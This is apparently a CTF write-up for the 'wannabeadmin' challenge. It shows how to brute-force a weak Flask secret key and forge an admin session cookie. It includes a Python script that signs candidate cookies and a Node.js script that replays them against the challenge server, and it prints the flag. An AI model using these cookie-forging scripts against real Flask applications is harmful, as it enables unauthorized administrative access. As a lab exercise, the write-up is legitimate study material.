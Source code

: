 # wannabeadmin Challenge (medium)

## question 

I always wanted to be an Admin! Can You help my dreams become true?

url: http://challs1.taparctf.ir:9001

Format: Tapar{flag} Author: exploitio

Hint: there is something you can't see!

![screen-shot](./assets/wannabeadmin/screen1.png)

Attachments: 

- [main.py](./assets/wannabeadmin/main.py)

## answer

### step 1
after searching about `flask-session`, i figure out that inject `session` cookie with `{username: admin}` data.

but The main challenge is finding or guess `app.secret_key` value.

According to `main.py` file, secret key takes a random value:

```py
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8
```

so, I change `main.py` and create `app.py` file:

```py
#!/usr/bin/env python
from flask import Flask, session, request, make_response

from string import hexdigits
from random import choice


app = Flask(__name__)
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8

max_len = 22 * 8
secrets = []
index = 0
# generate all possible secret keys
while True:
    if len(secrets) >= max_len:
        break
    secret = choice(hexdigits) + choice(hexdigits)
    new_sec = secret * 8
    if new_sec not in secrets:
        secrets.append(new_sec)


@app.route('/set/')
def set():
    global index, secrets
    app.secret_key = secrets[index]
    session['username'] = 'admin'
    my_cookie = request.cookies.get('session')
    print('session: [{}][{}] => {}\n----------\n',
          index, app.secret_key, my_cookie)
    index += 1
    return 'ok'


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)

# call `/set/` api and store its cookie value
ff = open('secrets.txt', 'w')
llen = len(secrets)
for i in range(0, llen):
    with app.test_client() as c:
        rv = c.get('/set/')
        secret = rv.headers['Set-Cookie'].split(';')[0].split('=')[1]
        ff.write(secret+'\n')
        print(rv.headers['Set-Cookie'])
ff.close()

```

this code, generate all possible secret keys (but not really all possibilities!), then I create a `/set/` API, and in every call, change app secret key every time.

finally I should to simulate call this Api for 176 times and store generated cookies in a file!

to run this script, just need to follow below:

```bash

pip3 install Flask Flask-Session 
flask run 

```

### step 2

Now, I should to simulate call main url and inject a new cookie every time (read from a file generated by my `app.py`)

for this step, I create a js script named `requests.js`:

```js
const fs = require('fs');
const axios = require('axios');

async function main() {
    let secrets = (fs.readFileSync('./secrets.txt').toString()).split('\n');
    if (fs.existsSync('./responses.txt')) {
        fs.unlinkSync('./responses.txt');
    }

    for (let i = 0; i < secrets.length; i++) {
        console.log(`[${i}] testing secret: ${secrets[i]}`);
        let res = await axios.request({
            url: "http://challs1.taparctf.ir:9001/",
            method: "get",
            headers: {
                Cookie: `session=${secrets[i]};`
            }
        });
        fs.writeFileSync('./responses.txt', res.data);
        if (res.data.indexOf('Only an Admin can see the FLAG!') === -1) {
            console.log('SUCCESS!!!!!');
            break;
        }
    }

}

main();

```

this script read all generated cookies from `secrets.txt` file and create requests for cookies by `axios`.

if in response of each request not see `Only an Admin can see the FLAG!` string, means that we got flag:) (Although it may be a http error!)

for run this script:

```bash
npm i axios
node requests.js

```

![screen-shot](./assets/wannabeadmin/screen2.png)

In final, I found the flag: 

**`Tapar{I_4lw4ys_W4nR3d_T0_b3_4dmin_74vr74v298uhffr}`**

## author

- name: TaparCTF 2

- written by: madkne in 2023.05.07

- website: http://taparctf.ir/
